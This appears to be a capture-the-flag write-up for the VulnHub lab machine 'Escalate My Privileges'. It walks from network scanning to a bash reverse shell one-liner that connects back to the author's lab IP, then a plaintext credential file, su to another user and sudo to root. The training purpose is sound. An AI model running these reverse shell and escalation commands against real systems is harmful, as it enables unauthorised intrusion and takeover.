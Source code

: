 ```yaml
---
published: true
layout: post
category: vulnhub
title: Escalate My Privileges
---
```

**URL:** [Escalate Privs Vulnhub](https://www.vulnhub.com/entry/escalate-my-privileges-1,448/)

**Difficulty:** Easy / Beginner Level

**Author:** Akanksha Sachin Verma

### Enumeration

Set up the Machine with a host-only adapter and run a net discover command to find the associated IP. My interface eth1 is Host Only on my main OS (Kali Linux).

<pre>netdiscover -i eth1</pre>

![netdiscover](https://imgur.com/ZXbe7TE.png)

The IP 192.168.56.113 has been found so we will do a port scan with the following IP:

<pre>nmap -p- -i "nmap" -sS 192.168.56.113</pre>

Nmap will scan every port with -p-, save to file -o and TCP SYN scan -sS.

![nmap](https://imgur.com/9oFhuw8.png)

Port 22, 80 and 111 is open. I will be focusing on port 80 for my enumeration however it's worth looking at port 111 to see if there are any mountable file systems. I won't go down this route but [this](https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/) website has a section on it. 

Opening up port 80 in a browser, we get this:

![p80](https://imgur.com/76wn0qP.png)

The nmap scan identified a robots.txt file which is worth checking out. Go to 192.168.56.113/robots.txt and there is an entry with the following:

<pre> - User-agent: *
Disallow: /phpbash.php</pre>

This means they do not want that page to be shown in google so we'll check it out anyway.

Going to 192.168.56.113/phpbash.php gives us the following page:

![phpbash](https://imgur.com/nQxbms3.png)

We already have a lower priv shell with the ID "apache". We are currently in the www/html directory where the web files are kept. 

### Upgrade Shell

Upgrading to a reverse shell will be easier to work with. I use [this website](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) to decide how I will get a reverse shell. Simply use the bash 'one-liner' and listen to a chosen port. 

<pre>bash -i >& /dev/tcp/192.168.56.101/4545 0>&1 </pre>

![rev_shell](https://i.imgur.com/QYgCcDI.png)

In this case, the reverse shell will be aimed at my local IP 192.168.56.101 on port 4545. Therefore set up a netcat listener on this port.

Make sure the netcat is set up before the command is executed. 

<pre>nc -nvlp 4545</pre>

Then execute the reverse shell and a connection should be established with user "apache".

![netcat](https://i.imgur.com/AFYGLzO.png)

### Privilege Escalation

After some enumeration, some files are found in the home directory of "armour". The contents of Credentials.txt reveal a password with md5(). Md5 is an algorithm that is widely used for hash functions producing a 128-bit hash value.

The md5 value has been shown by echo.

<pre>cd /home/armour
ls -la
cat Credentials.txt
echo -n "rootroot1" | md5sum </pre>

![md5](https://imgur.com/BJ1q5M4.png)

Let's try and use this password for the user "armour" by changing the user with the following command:

<pre>su armour</pre>

![armour](https://imgur.com/iJDJnlr.png)

The password is correct, we now have a new shell with ID armour. Make sure to upgrade the shell.

<pre>id
python3 -c 'import pty;pty.spawn("/bin/bash")'</pre>

First thing to do is to check the sudo privileges:

<pre>sudo -l</pre>

![sudo-l](https://imgur.com/qfvwZll.png)

There is a huge amount of options to explore however just by exploiting the first entry /bin/sh should give sudo privileges.

<pre>sudo /bin/sh</pre>

![root](https://imgur.com/aETTEPy.png)

And there is the flag in /root.
